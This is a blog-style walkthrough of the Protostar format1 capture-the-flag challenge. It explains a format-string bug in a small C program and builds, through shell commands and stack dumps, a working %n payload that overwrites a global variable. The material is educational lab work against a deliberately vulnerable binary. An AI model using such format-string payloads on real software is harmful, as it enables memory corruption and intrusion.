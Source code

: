 ```yaml
---
layout: post
title:  "Protostar format1 challenge"
date:   2019-02-04 18:26:36 +0530
categories: exploit.education protostar format-one
---
```

This type of exploit tries to exploit format vulenrabilities in code. Below is the code for [format1][format1-link] challenge.

{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  if(target) {
      printf("you have modified the target :)\n");
  }
}
int main(int argc, char **argv)
{
  vuln(argv[1]);
}
Hints
    objdump -t is your friend, and your input string lies far up the stack :)
{% endhighlight %}
Here `printf(string);` is vulnerable to format exploit. It should have been `printf("%s",string);` to prevent the exploit.
As with format exploits we can try with various format specifiers to direct our execution.
First let us try with some random inputs to check behaviour of program.
{% highlight shell %}
user@protostar:/opt/protostar/bin$ ./format1 AAAA
AAAAuser@protostar:/opt/protostar/bin$ 
user@protostar:/opt/protostar/bin$ ./format1 AAAABBBBCCCC
AAAABBBBCCCCuser@protostar:/opt/protostar/bin$
804960cuser@protostar:/opt/protostar/bin$ ./format1 "%x %x %x %x"
804960c bffff7f8 8048469 b7fd8304user@protostar:/opt/protostar/bin$
{% endhighlight %}
The program just prints the first argument passed but when we pass `%x` specifier it return some values like addresses.
`%x` specifier prints in `hex` format. Since we donot pass string also to `printf`(we are only pass format), the result is picking whatever there is on stack, which in our case is addresses on stack.
But how do we use it read(and later write to) `target` address `0x08049638`?
{% highlight shell %}
user@protostar:/opt/protostar/bin$ objdump -t format1 | grep target
08049638 g     O .bss	00000004              target
{% endhighlight %}
Thing is the format specifier argument string `%x %x %x %x` is also passed to program on stack.
As we know that arguments to program are kept on stack before `RET`.
So if we read enough memory, we will end up also reading our format specifier passed as argument.
If we pass our address in format specifier, then we can also read it.
{% highlight shell %}
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA'+'\x38\x96\x04\x08' + 'BB' + '%x  '*100+ '%x  '"`"
AAAA8�BB804960c  bffff658  8048469  b7fd8304  b7fd7ff4  bffff658  8048435  bffff828  b7ff1040  804845b  b7fd7ff4  8048450  0  bffff6d8  b7eadc76  2  bffff704  bffff710  b7fe1848  bffff6c0  ffffffff  b7ffeff4  804824d  1  bffff6c0  b7ff0626  b7fffab0  b7fe1b28  b7fd7ff4  0  0  bffff6d8  48c2698  2ed89088  0  0  0  2  8048340  0  b7ff6210  b7eadb9b  b7ffeff4  2  8048340  0  8048361  804841c  2  bffff704  8048450  8048440  b7ff1040  bffff6fc  b7fff8f8  2  bffff81e  bffff828  0  bffff9c7  bffff9d5  bffff9e0  bffff9fd  bffffa10  bffffa1a  bfffff0a  bfffff48  bfffff5c  bfffff73  bfffff84  bfffff8c  bfffff9c  bfffffa9  bfffffd4  bfffffe6  0  20  b7fe2414  21  b7fe2000  10  78bf3bf  6  1000  11  64  3  8048034  4  20  5  7  7  b7fe3000  8  0  9  8048340  b  3e9  c
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA'+'\x38\x96\x04\x08' + 'BB' + '%x  '*150+ '%x  '"`"
AAAA8�BB804960c  bffff598  8048469  b7fd8304  b7fd7ff4  bffff598  8048435  bffff760  b7ff1040  804845b  b7fd7ff4  8048450  0  bffff618  b7eadc76  2  bffff644  bffff650  b7fe1848  bffff600  ffffffff  b7ffeff4  804824d  1  bffff600  b7ff0626  b7fffab0  b7fe1b28  b7fd7ff4  0  0  bffff618  36dd9426  1c8ea236  0  0  0  2  8048340  0  b7ff6210  b7eadb9b  b7ffeff4  2  8048340  0  8048361  804841c  2  bffff644  8048450  8048440  b7ff1040  bffff63c  b7fff8f8  2  bffff756  bffff760  0  bffff9c7  bffff9d5  bffff9e0  bffff9fd  bffffa10  bffffa1a  bfffff0a  bfffff48  bfffff5c  bfffff73  bfffff84  bfffff8c  bfffff9c  bfffffa9  bfffffd4  bfffffe6  0  20  b7fe2414  21  b7fe2000  10  78bf3bf  6  1000  11  64  3  8048034  4  20  5  7  7  b7fe3000  8  0  9  8048340  b  3e9  c  0  d  3e9  e  3e9  17  1  19  bffff73b  1f  bffffff2  f  bffff74b  0  0  0  67000000  6a652792  cbace49b  c9c58ba3  69af5586  363836  0  2f2e0000  6d726f66  317461  41414141  8049638  78254242  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020  78252020
{% endhighlight %}
We see series of `78252020` is read from stack by format specifier, which is just ASCII for `%x  ` which we has passed in format as multiple.
This confirms that format specifier is also passed on stack as argument.
We also see our address `8049638` is stored in stack.
Note that we have placed a single `%x  `. This is to make ensure from which format specifier ie `%x` our `target` address is being fetched(and as we will see later we need to change it)
After playing around with different multiple for format specifier, we get a value for which our `target` address is last.
{% highlight shell %}
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA'+'\x38\x96\x04\x08' + 'BB' + '%x  '*129+ '%x  '"`"
AAAA8�BB804960c  bffff5e8  8048469  b7fd8304  b7fd7ff4  bffff5e8  8048435  bffff7b4  b7ff1040  804845b  b7fd7ff4  8048450  0  bffff668  b7eadc76  2  bffff694  bffff6a0  b7fe1848  bffff650  ffffffff  b7ffeff4  804824d  1  bffff650  b7ff0626  b7fffab0  b7fe1b28  b7fd7ff4  0  0  bffff668  200fb921  a5c2f31  0  0  0  2  8048340  0  b7ff6210  b7eadb9b  b7ffeff4  2  8048340  0  8048361  804841c  2  bffff694  8048450  8048440  b7ff1040  bffff68c  b7fff8f8  2  bffff7aa  bffff7b4  0  bffff9c7  bffff9d5  bffff9e0  bffff9fd  bffffa10  bffffa1a  bfffff0a  bfffff48  bfffff5c  bfffff73  bfffff84  bfffff8c  bfffff9c  bfffffa9  bfffffd4  bfffffe6  0  20  b7fe2414  21  b7fe2000  10  78bf3bf  6  1000  11  64  3  8048034  4  20  5  7  7  b7fe3000  8  0  9  8048340  b  3e9  c  0  d  3e9  e  3e9  17  1  19  bffff78b  1f  bffffff2  f  bffff79b  0  0  0  62000000  2c4a464d  912f6ff2  5d048183  69ff9373  363836  0  0  2f2e0000  6d726f66  317461  41414141  8049638
{% endhighlight %}
So the last `%x` is getting is our required address `8049638`.
But why are we interest in having `target` address as last. Thats because we are going to use `%n` specifier.
This is writes to a given address the number of characters printed before it. eg `printf("111%n", 0xdeadbeef)` would write 3 to address `0xdeadbeef`.
There for we will change our last `%x` to `%n` such that it will point to `target` address and will write number of chars printer before it to it.
{% highlight shell %}
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA'+'\x38\x96\x04\x08' + 'BB' + '%x  '*129+ '%n  '"`"
AAAA8�BB804960c  bffff5e8  8048469  b7fd8304  b7fd7ff4  bffff5e8  8048435  bffff7b4  b7ff1040  804845b  b7fd7ff4  8048450  0  bffff668  b7eadc76  2  bffff694  bffff6a0  b7fe1848  bffff650  ffffffff  b7ffeff4  804824d  1  bffff650  b7ff0626  b7fffab0  b7fe1b28  b7fd7ff4  0  0  bffff668  b824c30f  9277551f  0  0  0  2  8048340  0  b7ff6210  b7eadb9b  b7ffeff4  2  8048340  0  8048361  804841c  2  bffff694  8048450  8048440  b7ff1040  bffff68c  b7fff8f8  2  bffff7aa  bffff7b4  0  bffff9c7  bffff9d5  bffff9e0  bffff9fd  bffffa10  bffffa1a  bfffff0a  bfffff48  bfffff5c  bfffff73  bfffff84  bfffff8c  bfffff9c  bfffffa9  bfffffd4  bfffffe6  0  20  b7fe2414  21  b7fe2000  10  78bf3bf  6  1000  11  64  3  8048034  4  20  5  7  7  b7fe3000  8  0  9  8048340  b  3e9  c  0  d  3e9  e  3e9  17  1  19  bffff78b  1f  bffffff2  f  bffff79b  0  0  0  2a000000  9122a388  553823e7  ad32735f  6990f72c  363836  0  0  2f2e0000  6d726f66  317461  41414141    you have modified the target :)
{% endhighlight %}
And we have successfully modified the target.

[format1-link]:https://exploit.education/protostar/format-one/


